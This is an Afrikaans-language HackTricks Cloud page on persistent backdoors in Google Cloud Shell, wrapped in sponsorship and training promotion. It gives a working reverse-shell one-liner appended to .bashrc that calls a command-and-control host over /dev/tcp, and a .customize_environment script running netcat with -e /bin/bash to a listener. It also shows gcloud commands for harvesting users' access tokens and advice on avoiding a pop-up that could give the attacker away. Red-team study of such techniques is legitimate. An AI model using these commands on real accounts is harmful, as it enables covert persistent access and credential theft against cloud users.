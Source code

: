 # GCP - Wolkmussel Volharding

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* github-opslag.

</details>

## Wolkmussel

Vir meer inligting, kyk:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Volhoubare Agterdeur

[**Google Cloud Shell**](https://cloud.google.com/shell/) bied jou die moontlikheid om opdraggewys toegang tot jou wolkmiddels direk vanuit jou webblaaier te verkry sonder enige geassosieerde koste.

Jy kan toegang tot Google se Wolkmussel verkry vanaf die **webkonsol** of deur **`gcloud cloud-shell ssh`** uit te voer.

Hierdie konsol het 'n paar interessante vermoëns vir aanvallers:

1. **Enige Google-gebruiker met toegang tot Google Wolke** het toegang tot 'n ten volle geauthentiseerde Wolkmussel-instansie (Diensrekeninge kan, selfs al is hulle eienaars van die organisasie).
2. Genoemde instansie sal **sy tuisgids vir ten minste 120 dae handhaaf** as geen aktiwiteit plaasvind nie.
3. Daar is **geen vermoë vir 'n organisasie om die aktiwiteit** van daardie instansie te monitor nie.

Dit beteken basies dat 'n aanvaller 'n agterdeur in die tuisgids van die gebruiker kan plaas en solank die gebruiker elke 120 dae ten minste na die GC-mussel koppel, sal die agterdeur oorleef en die aanvaller sal elke keer 'n skul kry wanneer dit uitgevoer word deur net te doen:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Daar is 'n ander lêer in die huisvouer genaamd **`.customize_environment`** wat, indien dit bestaan, elke keer uitgevoer gaan word wanneer die gebruiker die **wolkmussel** toegang (soos in die vorige tegniek). Voeg net die vorige agterdeur in of een soos die volgende om volharding te handhaaf solank as wat die gebruiker die wolkmussel "gereeld" gebruik:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Dit is belangrik om daarop te let dat die **eerste keer wanneer 'n aksie wat verifikasie vereis, uitgevoer word**, 'n pop-up-verifikasievenster in die gebruiker se webblaaier verskyn. Hierdie venster moet aanvaar word voordat die bevel uitgevoer kan word. As 'n onverwagte pop-up verskyn, kan dit argwaan wek en moontlik die volhardingsmetode wat gebruik word, in gevaar bring.
{% endhint %}

Dit is die pop-up van die uitvoering van `gcloud projects list` van die wolkshell (as aanvaller) wat in die webblaaier se gebruikersessie gesien word:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Maar as die gebruiker aktief die wolkshell gebruik het, sal die pop-up nie verskyn nie en kan jy **gebruikers se tokens versamel met**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Hoe die SSH-verbinding tot stand gebring word

Basies word hierdie 3 API-oproepe gebruik:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (sal jou dwing om jou publieke sleutel wat jy plaaslik geskep het, by te voeg)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (sal jou dwing om die instansie te begin)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (sal jou die IP van die Google Cloud Shell vertel)

Maar jy kan verdere inligting vind by [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Verwysings

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
Leer & oefen AWS-hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP-hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kontroleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}
